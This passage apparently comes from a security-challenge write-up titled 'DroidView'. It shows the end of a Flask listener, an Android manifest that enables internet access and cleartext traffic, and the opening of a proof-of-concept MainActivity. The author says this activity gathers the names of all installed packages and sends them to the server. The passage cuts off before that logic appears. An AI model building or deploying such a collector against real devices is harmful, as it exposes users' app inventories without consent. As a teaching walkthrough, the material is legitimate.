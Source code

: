 ```python

# serve the server in port 8080
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=8080, debug=True)
```
### PoC - APK
Finally, the code that will trigger all of above.
Since we need **get the package name** for all *apps installed*, and then, **send to our flask server**, we need add into our `AndroidManifest.xml` file the *internet permission*.
```XML
<uses-permission android:name="android.permission.INTERNET" />
```
And, very important, the `android:usesCleartextTraffic="true"` in the `<application` attributes.
Full `AndroidManifest.xml` file:
```XML
<?xml version="1.0" encoding="utf-8"?>  
<manifest xmlns:android="http://schemas.android.com/apk/res/android"  
xmlns:tools="http://schemas.android.com/tools"  
package="com.lautarovculic.droidviewexploit">  
  
    <uses-permission android:name="android.permission.INTERNET" />  
  
    <application  
        android:allowBackup="true"  
        android:label="@string/app_name"  
        android:icon="@mipmap/ic_launcher"  
        android:roundIcon="@mipmap/ic_launcher_round"  
        android:supportsRtl="true"  
        android:usesCleartextTraffic="true"  
        android:theme="@style/Theme.DroidViewExploit">  
        <activity android:name=".MainActivity" android:exported="true">  
            <intent-filter>  
                <action android:name="android.intent.action.MAIN"/>  
                <category android:name="android.intent.category.LAUNCHER"/>  
            </intent-filter>  
        </activity>  
    </application>  
</manifest>
```

Let's create the **Java code**. I just needed the **`MainActivity`** class for the logic.
```java
package com.lautarovculic.droidviewexploit;  
  
import android.content.ComponentName;  
import android.content.Intent;  
import android.content.pm.ApplicationInfo;  
import android.content.pm.PackageManager;  
import android.net.Uri;  
import android.os.Bundle;  
import android.os.Handler;  
import android.util.Log;  
import androidx.appcompat.app.AppCompatActivity;  
import org.json.JSONArray;  
import org.json.JSONObject;  
import java.io.OutputStream;  
import java.net.HttpURLConnection;  
import java.net.URL;  
import java.util.List;  
  
public class MainActivity extends AppCompatActivity {  
  
    @Override  
    protected void onCreate(Bundle savedInstanceState) {  
```